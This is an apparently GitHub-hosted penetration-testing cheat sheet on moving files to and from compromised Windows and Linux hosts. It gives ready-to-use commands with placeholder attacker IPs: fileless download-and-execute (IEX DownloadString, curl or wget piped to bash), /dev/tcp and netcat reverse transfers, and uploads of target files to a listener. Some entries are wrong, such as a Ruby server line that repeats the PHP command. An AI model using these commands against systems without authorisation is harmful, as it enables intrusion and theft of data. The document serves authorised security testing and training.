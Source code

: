 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><h1>🪟 Windows</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PowerShell Downloads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h4>PowerShell DownloadFile Method</h4></summary>

**Destination Machine: Sync (Wait for the download to finish)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFile('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Destination Machine: Async (Keep using Powershell while downloading)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFileAsync('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFileAsync('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell DownloadString - Fileless Method</h4></summary>

**Destination Machine: Default**  
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>')
```

**Destination Machine: Pipeline input**  
```powershell
(New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | IEX
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell Invoke-WebRequest</h4></summary>

**Destination Machine: Default**  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -OutFile <OUTPUT FILE>
```

**Destination Machine: Authentication**  
```powershell
Invoke-WebRequest -Uri "http://<IP>:<PORT>/<FILE>" -Headers @{"Authorization"="Basic "+[Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes("<USER>:<PASSWORD>"))} -OutFile "C:\Users\Public\<FILE>"
```

**Destination Machine: ByPass Internet Explorer Error**  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -UseBasicParsing | IEX
```

**Destination Machine: Skip SSL validation (PowerShell 7+)**  
```powershell
Invoke-WebRequest -Uri "https://<IP>:<PORT>/<FILE>" -OutFile "<FILE>" -SkipCertificateCheck
```

**Destination Machine: Skip SSL validation (PowerShell 5.1 or previous)**  
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; (New-Object Net.WebClient).DownloadFile("https://<IP>:<PORT>/<FILE>", "<FILE>")
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SMB Downloads</h3></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Default</h4></summary>  

**Source Machine: Create a temporary SMB Share on Linux and place your target file in it** 

```bash
mkdir /tmp/smbshare
cd /tmp/smbshare
mv <FILE> .
chmod 644 <FILE>
sudo impacket-smbserver share -smb2support .
```

**Destination Machine: Download the files**

**Option 1:** Download a single file
```cmd
copy \\<IP>\share\<FILE>
``` 

**Option 2:** Mount the share
```cmd
net use n: \\<IP>\share /persistent:no
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Using credentials</h4></summary>  

**Source Machine: Create the SMB Server on Linux**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```

**Destination Machine: Download the files**  

**Mount the share**
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
```

**Download the file**
```cmd
copy n:\<FILE>
```

**Unmount the share**
```cmd
net use n: /delete /y
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Downloads</h3></summary>  

**Source Machine: Setting up a Python3 FTP Server on Linux**
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user <USER> --password '<USER>'
```

**Destination Machine: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<USER>')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Destination Machine: Download file using CMD**  
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
ftp -i -v -n -s:ftpcommand.txt
```
---

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📤 Uploads</h2></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h3>PowerShell Uploads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Encode & Decode</h4></summary>  

**Source Machine: Encode File Using PowerShell** 
```powershell
# 1. Convert File to Base64
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))

# 2. Computes the MD5 checksum of a file to verify its integrity.
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

**Destination Machine: Decode Base64 String on Linux**
```bash
# 1. Save the base64 string to a file
echo "<BASE64STRING>" > encoded.b64

# 2. Decode the base64 to recreate the original file
base64 -d encoded.b64 > decoded.txt

# 3. Verify the MD5 hash matches the Windows version
md5sum decoded.txt
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Web Uploads</h4></summary>  

**Source Machine: Installing a Configured WebServer with Upload on Linux**
```bash
pip3 install uploadserver
python3 -m uploadserver
```

**Destination Machine: PowerShell Script to Upload a File to Python Upload Server**
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Web Upload</h4></summary>  

**Source Machine: We use Netcat to listen in on a port we specify and send the file as a POST request.**
```bash
nc -lvnp <PORT>
```

**Destination Machine: PowerShell Script to Upload a File to Python Upload Server**
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
```

**Source Machine: We copy the output and use the base64 decode function to convert the base64 string into a file.**
```bash
echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>SMB Uploads</h3></summary>  

**Source Machine: Installing WebDav Python modules on Linux**
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```

**Destination Machine: Uploading Files using SMB on Windows**
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Start our FTP Server on Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```

**Destination Machine: Upload the file on Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```

Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

**Destination Machine: Once in FTP...**
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><h1>🐧 Linux</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Base64 Encoding / Decoding</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 
  
**Check File MD5 hash**  
```bash
md5sum <FILE>
```

**Encode file to Base64**  
```bash
# We copy this content and paste it onto our Linux target machine
cat <FILE> |base64 -w 0;echo
```

**Decode the File**  
```bash
echo -n '<BASE64STRING>' | base64 -d > <OUTPUT FILE>
```

**Confirm the MD5 Hashes Match**  
```bash
md5sum <FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Wget Downloads</h3></summary>  

**Basic Download**  
```bash
wget http://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
wget -O <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
wget --user=<USER> --password=<PASSWORD> http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
wget -qO- http://<IP>:<PORT>/<FILE> | python3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Curl Downloads</h3></summary>

**Basic Download**  
```bash
curl -o <OUTPU_FILE> http://<IP>:<PORT>/<FILE>
```

**Ignore SSL certificate**  
```bash
curl -k -o <OUTPU_FILE> https://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
curl -o <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
curl -u <USER>:<PASSWORD> -o <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
curl http://<IP>:<PORT>/<FILE> | bash
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Download with Bash</h3></summary>

**Connect to the Target Webserver**  
```bash
exec 3<>/dev/tcp/<IP>/<PORT>
```

**HTTP GET Request**  
```bash
echo -e "GET /<FILE> HTTP/1.1\n\n">&3
```

**Print the Response**  
```bash
cat <&3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SSH Downloads</h3></summary>

**Source Machine: Starting the SSH Server**  
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

**Source Machine: Checking for SSH Listening Port**  
```bash
#0.0.0.0:22
netstat -lnpt
```

**Destination Machine: Downloading Files Using SCP**  
```bash
scp user@remote_ip:/remote/path/<FILE> /local/path/
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📤 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Web upload</h3></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>Python UploadServer (Basic)</h4></summary>

**Source Machine: Start Web Server**  
```bash
# Run in the target directory
sudo python3 -m pip install --user uploadserver
sudo python3 -m uploadserver <PORT>

#Serving HTTP on 0.0.0.0 port <PORT> (http://0.0.0.0:<PORT>/) ...
```  
  
> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>Authenticated Web Server</h4></summary>

**Source Machine: Create server.py**  
```python
# server.py
from http.server import HTTPServer, SimpleHTTPRequestHandler
import base64

class AuthHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        auth = self.headers.get('Authorization')
        if not auth or not auth.startswith('Basic '):
            self.send_response(401)
            self.send_header('WWW-Authenticate', 'Basic realm="Secure Area"')
            self.end_headers()
            return
        
        username, password = base64.b64decode(auth[6:]).decode().split(':', 1)
        if username == '<PORT>' and password == '<PORT>':
            super().do_GET()
        else:
            self.send_response(403)
            self.end_headers()
            self.wfile.write(b'Access denied')

HTTPServer(('0.0.0.0', <PORT>), AuthHandler).serve_forever()
```

**Source Machine: Start Web Server**  
```bash
sudo python3 server.py
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SCP Uploads</h3></summary>  
  
**Upload to Remote Server**  
```bash
scp <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Custom Port**  
```bash
scp -P <PORT> <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Key Authentication**  
```bash
scp -i <KEY FILE> <FILE> <USER>@<IP>:/remote/path/
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Using FTP Command**  
```bash
ftp <IP>
# Once connected:

put <FILE>
```

**Source Machine: Using lftp**  
```bash
lftp -u <USER>,<PASSWORD> <IP>

# Once connected:
put <FILE>
```

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Alternative Web File Transfer Method</h3></summary>
A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server.

**Source Machine: Creating a Web Server with Python3**  
```bash
python3 -m http.server 8000
```

**Source Machine: Creating a Web Server with Python2.7**  
```bash
python2.7 -m SimpleHTTPServer 8000
```

**Source Machine: Creating a Web Server with PHP**  
```bash
php -S 0.0.0.0:8000
```

**Source Machine: Creating a Web Server with Ruby**  
```bash
php -S 0.0.0.0:8000
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
</details>

---

<details>
<summary><h1>💻 Code</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Python</h3></summary>

**Python 3**
```python
python3 -c 'import urllib.request;urllib.request.urlretrieve("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>")'
```

**Python 2**
```python
python2.7 -c 'import urllib;urllib.urlretrieve ("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>")'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PHP</h3></summary>

**PHP Download with File_get_contents()**
```php
php -r '$file = file_get_contents("http://<IP>:<PORT>/<FILE>"); file_put_contents("<OUTPUT FILE>",$file);'
```  
  
**PHP Download with Fopen()**
```php
php -r 'const BUFFER = 1024; $fremote = 
fopen("http://<IP>:<PORT>/<FILE>", "rb"); $flocal = fopen("<OUTPUT FILE>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```    

**PHP Download a File and Pipe it to Bash**
```php
php -r '$lines = @file("http://<IP>:<PORT>/<FILE>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```    


</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Ruby</h3></summary>

```ruby
ruby -e 'require "net/http"; File.write("<OUTPUT FILE>", Net::HTTP.get(URI.parse("http://<IP>:<PORT>/<FILE>")))'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Perl</h3></summary>

```perl
perl -e 'use LWP::Simple; getstore("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>");'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>JavaScript</h3></summary>

**Create the script wget.js**
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```  
  
**Execute the script on Windows (CMD or Powershell)**
```cmd
cscript.exe /nologo wget.js http://<IP>:<PORT>/<FILE> <OUTPUT FILE>
```    

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>VBScript</h3></summary>

**Create the script wget.vbs**
```vb
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```  
  
**Execute the script on Windows (CMD or Powershell)**
```cmd
cscript.exe /nologo wget.vbs http://<IP>:<PORT>/<FILE> <OUTPUT FILE>
```    

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>📤 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Python</h3></summary>

**Python 3**
```python
python3 -c 'import requests;requests.post("http://<IP>:<PORT>/uploads/path/",files={"files":open("<LOCAL FILE>")})'
```
</details>
</details>
</details>

---

<details>
<summary><h1>🧰 Miscellaneous</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>NC</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Netcat</h3></summary>

**Destination Machine: Listening on Port 8000**
```bash
nc -lvnp 8000 > <OUTPUT FILE>
```

**Source Machine: Sending File**
```bash
nc -q 0 <IP> 8000 < <LOCAL FILE>
```

**Reverse File Transfer (Outbound Connection from Compromised Host)**

Instead of listening on the compromised machine, you can listen on your attack host and have the compromised machine connect out. This is useful when inbound connections are blocked by a firewall.

**Destination Machine: Connects to Source Machine and receives file**
```bash
nc <IP> 443 > <OUTPUT FILE>
```

**Source Machine: Listening and sending file as input to Ncat**
```bash
sudo nc -l -p 443 -q 0 < <LOCAL FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Ncat</h3></summary>

**Destination Machine: Listening on Port 8000**
```bash
ncat -l -p 8000 --recv-only > <OUTPUT FILE>
```

**Source Machine: Sending File**
```bash
ncat --send-only <IP> 8000 < <LOCAL FILE>
```

**Reverse File Transfer (Outbound Connection from Compromised Host)**

**Destination Machine: Connects to Source Machine and receives file**
```bash
ncat <IP> 443 --recv-only > <OUTPUT FILE>
```

**Source Machine: Listening and sending file as input to Ncat**
```bash
sudo ncat -l -p 443 --send-only < <LOCAL FILE>
```  

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Bash /dev/tcp</h3></summary>

If Netcat or Ncat are not available, Bash can use the pseudo-device `/dev/tcp/host/port` for file transfers.

**Destination Machine: Receive file using /dev/tcp**
```bash
cat < /dev/tcp/<IP>/443 > <OUTPUT FILE>
```

> **Note:** This method can also be used to transfer files from the compromised host to your Source Machine by reversing the direction of the connection.

</details>
</details>

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h1>RDP</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via RDP Clipboard</h3></summary>

You can transfer files between your local machine and a remote Windows host using the RDP clipboard (copy-paste) feature. This is supported by most RDP clients if clipboard redirection is enabled.

**On your RDP client (Windows mstsc.exe):**
1. Open `mstsc.exe`.
2. Go to "Show Options" > "Local Resources" tab.
3. Ensure "Clipboard" is checked.
4. Connect to the remote host.
5. Copy files on your local machine and paste them into the remote desktop (or vice versa).

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via RDP Shared Drives</h3></summary>

You can map a local drive to the remote session, making it accessible from the remote host.

**On your RDP client (Windows mstsc.exe):**
1. Open `mstsc.exe`.
2. Go to "Show Options" > "Local Resources" tab.
3. Click "More..." under "Local devices and resources".
4. Check the drives you want to share.
5. Connect to the remote host.
6. The shared drive will appear in "This PC" or "My Computer" on the remote desktop, allowing you to copy files between systems.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via xfreerdp (Linux)</h3></summary>

If you are using Linux, you can use `xfreerdp` to enable clipboard and drive redirection.

**Clipboard (copy-paste):**
```bash
xfreerdp /v:<IP> /u:<USER> /p:<PASSWORD> +clipboard
```

**Share a local folder (e.g., /tmp/share):**
```bash
xfreerdp /v:<IP> /u:<USER> /p:<PASSWORD> +clipboard /drive:share,/tmp/share
```
The shared folder will appear as a drive on the remote Windows session.

</details>
</details>
</details>

---

<details>
<summary><h1>🔒 Protected File Transfers</h1></summary>

> **Note:** Unless specifically requested by a client, we do not recommend exfiltrating data such as Personally Identifiable Information (PII), financial data (i.e., credit card numbers), trade secrets, etc., from a client environment. Instead, if attempting to test Data Loss Prevention (DLP) controls/egress filtering protections, create a file with dummy data that mimics the data that the client is trying to protect.

> **Note:** Remember to use a strong and unique password to avoid brute-force cracking attacks should an unauthorized party obtain the file.

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>File Encryption on Windows</h2></summary>

Many different methods can be used to encrypt files and information on Windows systems. One of the simplest methods is the [`Invoke-AESEncryption.ps1`](../scripts/file_transfers/Invoke-AESEncryption.ps1) PowerShell script. This script is small and provides encryption of files and strings.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Invoke-AESEncryption.ps1</h3></summary>

**Installation & Configuration**

```powershell
$moduleCode = @'
function Invoke-AESEncryption {
    [CmdletBinding()]
    [OutputType([string])]
    Param
    (
        [Parameter(Mandatory = $true)]
        [ValidateSet('Encrypt', 'Decrypt')]
        [String]$Mode,

        [Parameter(Mandatory = $true)]
        [String]$Key,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
        [String]$Text,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
        [String]$Path
    )

    Begin {
        $shaManaged = New-Object System.Security.Cryptography.SHA256Managed
        $aesManaged = New-Object System.Security.Cryptography.AesManaged
        $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
        $aesManaged.BlockSize = 128
        $aesManaged.KeySize = 256
    }

    Process {
        $aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))

        switch ($Mode) {
            'Encrypt' {
                if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName + ".aes"
                }

                $encryptor = $aesManaged.CreateEncryptor()
                $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
                $encryptedBytes = $aesManaged.IV + $encryptedBytes
                $aesManaged.Dispose()

                if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File encrypted to $outPath"
                }
            }

            'Decrypt' {
                if ($Text) {$cipherBytes = [System.Convert]::FromBase64String($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $cipherBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName -replace ".aes"
                }

                $aesManaged.IV = $cipherBytes[0..15]
                $decryptor = $aesManaged.CreateDecryptor()
                $decryptedBytes = $decryptor.TransformFinalBlock($cipherBytes, 16, $cipherBytes.Length - 16)
                $aesManaged.Dispose()

                if ($Text) {return [System.Text.Encoding]::UTF8.GetString($decryptedBytes).Trim([char]0)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $decryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File decrypted to $outPath"
                }
            }
        }
    }

    End {
        $shaManaged.Dispose()
        $aesManaged.Dispose()
    }
}
'@

# Create the directory for the current user
$modulePath = "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt"
if (!(Test-Path $modulePath)) {
    New-Item -ItemType Directory -Path $modulePath -Force
}

# Save the module
$moduleCode | Out-File "$modulePath\AESCrypt.psm1" -Encoding utf8

# Import the module
Import-Module AESCrypt -Force

```

> **Note:** To install globally (admin required), use the following route: **$modulePath = "C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AESCrypt"**

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Encryption Examples</h3></summary>

Encrypts the string "Secret Test" and outputs a Base64 encoded ciphertext.
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "<PASSWORD>" -Text "<STRING>" 
```

Decrypts the Base64 encoded string and outputs plain text.
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "<PASSWORD>" -Text "<BASE64STRING>" 
```

Encrypts the file and outputs an encrypted file ".aes".
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "<PASSWORD>" -Path <FILE>
```

Decrypts the ".aes" file and outputs an decrypted file.
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "<PASSWORD>" -Path <AES FILE>
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Uninstall module</h3></summary>

**Uninstall for current user**
```powershell
Remove-Module AESCrypt -ErrorAction SilentlyContinue
Remove-Item "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt" -Recurse -Force
```

**System-wide uninstall (admin required)**
```powershell
Remove-Module AESCrypt -ErrorAction SilentlyContinue
Remove-Item "C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AESCrypt" -Recurse -Force
```

**Verify Uninstallation**
```powershell
Get-Module AESCrypt -All | Remove-Module -ErrorAction SilentlyContinue
if (!(Test-Path "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt")) {
    Write-Output "Module completely removed"
}
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>File Encryption on Linux</h2></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>openssl</h3></summary>

Encrypting file  

```bash
openssl enc -aes256 -iter 100000 -pbkdf2 -in <FILE> -out <ENCRYPTED FILE>
```

Decrypting file   

```bash
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in <ENCRYPTED FILE> -out <FILE>                    
```

</details>
</details>
</details>

---

<details>
